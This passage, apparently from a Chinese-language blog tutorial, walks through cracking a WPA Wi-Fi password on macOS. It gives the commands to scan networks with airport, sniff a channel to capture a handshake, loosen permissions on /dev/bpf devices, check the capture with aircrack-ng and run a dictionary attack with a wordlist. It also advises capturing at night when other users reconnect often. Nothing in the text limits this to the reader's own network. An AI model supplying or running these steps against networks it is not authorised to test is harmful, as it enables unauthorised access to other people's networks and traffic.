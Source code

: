 ```zsh
sudo airport -s
```

![截屏2023-04-07 00.33.49](https://github-blog-carl.oss-cn-hangzhou.aliyuncs.com/img/202304070053290.png)

使用下面命令抓包

电脑网卡： `en0`

监听信道：`36` （信道选择根据上面获取的wifi列表想要连接的）

```zsh
sudo airport en0 sniff 36
```

如果提示错误，权限不够

```
airport en0 sniff 36                                                         
Could not open device en0 (en0: You don't have permission to capture on that device ((cannot open BPF device) /dev/bpf0: Permission denied)).

执行下面命令
cd /dev
ls -la | grep bp
whoami  //查看当前的用户名
sudo chown 上面看到的用户名:admin bp*
```



监听之后，Wi-Fi 图标会变化，使用 `control + C` 停止监听，系统会将监听到的数据 cap 文件保存到本地 `/tmp` 文件夹下。打开 cap 文件，查看 cap 文件中的数据是否被抓取到，输入命令查看：

```zsh
sudo aircrack-ng /tmp/airportSniffxxxxx.cap
```

![截屏2023-04-07 00.59.48](https://github-blog-carl.oss-cn-hangzhou.aliyuncs.com/img/202304070059611.png)



如果要查询的路由列表的  Encryption 中（0 handshake）是抓包失败，（1 handshake）则是抓包成功，否则要重新抓取。抓包时需要刚好这段时间有人重新连接了 wifi 才能抓到 WPA（1 handshake）的数据。

需要在晚上连接比较频繁的时候抓包，不然等待的时间也会很长。



### 破解

抓包成功后就可以开始破解了

字典文件：`321.txt`

握手包：`/tmp/airportSniffxxxxxx.cap` 将包文件移动到刚刚创建的 wifi 文件夹中

破解命令如下：

```zsh
sudo aircrack-ng -w 321.txt airportSniffxxxxxx.cap
```
